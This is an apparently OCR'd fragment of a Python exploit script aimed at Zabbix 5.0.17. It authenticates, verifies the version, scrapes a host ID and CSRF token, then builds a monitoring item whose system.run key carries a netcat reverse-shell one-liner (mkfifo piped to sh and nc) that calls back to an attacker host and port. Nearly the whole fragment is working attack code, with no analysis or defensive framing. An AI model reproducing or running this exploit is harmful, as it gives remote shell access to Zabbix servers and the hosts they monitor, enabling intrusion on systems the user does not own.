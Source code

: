 data = { 
"request":"hosts.php",
"name"  : username ,
"password" : password ,
"autologin" :"1" ,
"enter":"Sign+in"
}


proxies = {
   'http': 'http://127.0.0.1:8080'
}


r = s.post(url+"/index.php",data=data)  #proxies=proxies)

if "Sign out" not in r.text :
    print(Fore.RED +"[!] Authentication failed")
    sys.exit(-1)
if "Zabbix 5.0.17" not in r.text :
    print(Fore.RED +"[!] This is not Zabbix 5.0.17")
    sys.exit(-1)

if "filter_hostids%5B0%5D=" in r.text :
    try :
        x = re.search('filter_hostids%5B0%5D=(.*?)"', r.text)
        hostId = x.group(1)
    except :
        print(Fore.RED +"[!] Exploit failed to resolve HostID")
        print(Fore.BLUE +"[?] you can find it under /items then add item")
        sys.exit(-1)
else :
    print(Fore.RED +"[!] Exploit failed to resolve HostID")
    print(Fore.BLUE +"[?] you can find HostID under /items then add item")
    sys.exit(-1)


sid= re.search('<meta name="csrf-token" content="(.*)"/>',r.text).group(1) # hidden_csrf_token


command=f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {host} {port}  >/tmp/f"

payload = f"system.run[{command},nowait]"
Random_name = item_name()
data2 ={
    
"sid":sid,"form_refresh":"1","form":"create","hostid":hostId,"selectedInterfaceId":"0","name":Random_name,"type":"0","key":payload,"url":"","query_fields[name][1]":"","query_fields[value][1]":"","timeout":"3s","post_type":"0","posts":"","headers[name][1]":"","headers[value][1]":"","status_codes":"200","follow_redirects":"1","retrieve_mode":"0","http_proxy":"","http_username":"","http_password":"","ssl_cert_file":"","ssl_key_file":"","ssl_key_password":"","interfaceid":"1","params_es":"","params_ap":"","params_f":"","value_type":"3","units":"","delay":"1m","delay_flex[0][type]":"0","delay_flex[0][delay]":"","delay_flex[0][schedule]":"","delay_flex[0][period]":"","history_mode":"1","history":"90d","trends_mode":"1","trends":"365d","valuemapid":"0","new_application":"","applications[]":"0","inventory_link":"0","description":"","status":"0","add":"Add"
}
